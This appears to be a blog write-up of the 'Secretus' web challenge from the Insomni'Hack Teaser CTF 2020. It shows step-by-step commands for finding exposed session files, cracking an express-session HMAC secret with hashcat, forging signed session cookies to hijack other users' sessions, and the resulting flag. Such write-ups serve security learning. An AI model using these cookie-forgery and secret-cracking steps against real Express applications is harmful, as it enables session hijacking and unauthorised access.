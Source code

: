 [«](https://blog.vihan.org/) Insomni\'Hack Teaser CTF 2020: Write-ups
=====================================================================

[](https://blog.vihan.org/insomnihack-2020/#web){.anchor}Web
============================================================

[](https://blog.vihan.org/insomnihack-2020/#secretus){.anchor}Secretus
----------------------------------------------------------------------

This had a few layers but was ultimately a session hijacking challenge.

This homepage is a dead-end. No forms, no HTTP requests, links, etc. So
next step was a dirsearch.

These entries seem important...

    [20:32:09] 301 -   39B  - /debug  ->  /home
    [20:32:09] 301 -   39B  - /debug/  ->  /home
    [20:32:42] 200 -  518B  - /package.json
    [20:32:55] 401 -   27B  - /secret

Visiting `/debug` takes us back to `/home`. Unfortunately, visiting
`/secret` gives us:

    {
        "error": "INVALID_API_KEY"
    }

Hm, well maybe we can find an API key. Let's visit `/package.json` to
see what dependencies this uses, and how it works:

    http GET http://secretus.insomnihack.ch/package.json | jq .dependencies

    {
      "body-parser": "^1.19.0",
      "cookie-session": "^1.3.3",
      "ejs": "^3.0.1",
      "express": "^4.17.1",
      "express-authentication": "^0.3.2",
      "express-session": "^1.17.0",
      "session-file-store": "^1.3.1"
    }

From this we derive a few things:

-   Sessions are being stored in files (`session-file-store`)
-   Sessions cookies are in express's default format
    (`express-session`/`cookie-session`)
-   Authentication uses `express-authentication`

Looking at the
[documentation](https://www.npmjs.com/package/express-authentication)
for `express-authentication`, we can see that `Authorization: secret` is
the header by default used for logging in. Let's try this:

    $ http GET http://secretus.insomnihack.ch/secret Authorization:secret
    HTTP/1.1 200 OK
    ... blah ...
    Set-Cookie: connect.sid=s%3Alkdh18zhtZX-vve8gThP8_NEoTkr-OsT.T4zrDEc9N2RbIViBsst5ZlWo1DfWLu0tKMTtEgmLF%2Fk; Path=/; HttpOnly

This now will take us to a page where we can add a 'token' which the
server will save. However, this input does not appear to be vulnerable
to any common attacks such as SQLi, SSTI, overflow, etc. so rather than
pursue that, let's check out the `/debug` path that previously didn't
work:

    $ http GET http://secretus.insomnihack.ch/debug Authorization:secret | pup li text{}
    -vBjlg5JlzZb1Q4u1-aO5BfKt836Zgdn.json
    ... trimmed ...
    IPzX2ibvPNrxuqYbAlVzal9yJMv2N3wx.json

These look exactly like files for the session IDs from before. The issue
is let's analyze the decoded session cookie from above. I looked up the
[source code for
`express-session`](https://github.com/expressjs/session/blob/85682a2a56c5bdbed8d7e7cd2cc5e1343c951af6/index.js#L645)
which reveals the following format:

    s:lkdh18zhtZX-vve8gThP8_NEoTkr-OsT.T4zrDEc9N2RbIViBsst5ZlWo1DfWLu0tKMTtEgmLF/k
    ^ ^                                ^
    | |                                |
    + Prefix                           + Session ID hash
      |
      + Session ID

If we want to use the sessions found in `/debug`, we'd need the server's
secret key which is used to generate the hash. `express-session` uses
the [`cookie-signature`](https://www.npmjs.com/package/cookie-signature)
library to create these hashes. Looking at the [source
code](https://github.com/tj/node-cookie-signature/blob/master/index.js#L20)
for it, we can identify that this hash is an HMAC-SHA-256. At this
points it looks like it'll be necessary to brute-force the secret key so
we can spoof a session.

Let's convert the hash into hex and then format it like
`<hash in hex>:<value>` so that way we can pass it into hashcat.

    $ echo $(
        echo 'T4zrDEc9N2RbIViBsst5ZlWo1DfWLu0tKMTtEgmLF/k' |
        base64 -D |
        xxd -p
      ):lkdh18zhtZX-vve8gThP8_NEoTkr-OsT > hash.txt

    $ $HMAC_SHA_256_MODE=1450
    $ $WORDLIST=crackstation.txt
    $ hashcat -a 0 -m $HMAC_SHA_256_MODE hash.txt $WORDLIST -O

I used the crackstation wordlist as rockyou was exhausted quickly.
Eventually, this outputs `keyboard cat` as the secret. Now all that's
left is to reconstruct a new session with the obtained session IDs from
the debug file and see what works. Rather than create some convoluted
bash script I just used CyberChef:

    $ http GET http://secretus.insomnihack.ch/debug Authorization:secret |
        pup li text{} |
        sed s/.json$// > sessions.txt

[Here's a link to my CyberChef to construct the new
sessions](https://gchq.github.io/CyberChef/#recipe=Fork('%5C%5Cn','%5C%5Cn',false)Register('(.%2B)',true,false,false)HMAC(%7B'option':'Latin1','string':'keyboard%20cat'%7D,'SHA256')From_Hex('Auto')To_Base64('A-Za-z0-9%2B/')Register('(.%2B)',true,false,true)Find_/_Replace(%7B'option':'Regex','string':'.%2B'%7D,'s:$R0.$R1',true,false,true,false)URL_Encode(false)).
I essentially just did `s:sessionId.hmacOfSessionId`. Now I request the
new secret tokens using the new session ID:

    $ http GET http://secretus.insomnihack.ch/secret \
        Authorization:secret \  
        Cookie:'connect.sid=s:C35XelHWhFhnbGnpMH5fBMGLLT0C1q0J.OMmTzUU8LzDDETCg/Iprq+q66D+3QDmLCBXW5uTZbPk; Path=/; HttpOnly' \
        | pup ul li text{}

    INS{BeSureYourSecretIsActuallySecret}